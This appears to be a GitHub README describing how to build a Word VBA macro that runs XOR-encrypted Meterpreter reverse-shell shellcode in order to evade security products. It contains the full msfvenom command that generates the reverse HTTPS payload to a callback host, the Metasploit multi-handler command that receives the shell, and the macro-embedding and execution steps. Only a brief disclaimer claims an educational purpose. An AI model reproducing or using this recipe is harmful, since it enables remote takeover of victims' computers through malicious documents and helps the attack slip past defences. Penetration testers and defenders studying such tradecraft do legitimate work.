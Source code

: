 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to bypass security solutions by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https SessionExpirationTimeout=0 SessionCommunicationTimeout=0 LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
Use the provided C# encryption script (`XOR_encrypted`) to XOR the shellcode with a static key (`0xFA`).

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; set SessionExpirationTimeout 0; set SessionCommunicationTimeout 0; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encrypted payload is decoded and executed in memory

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

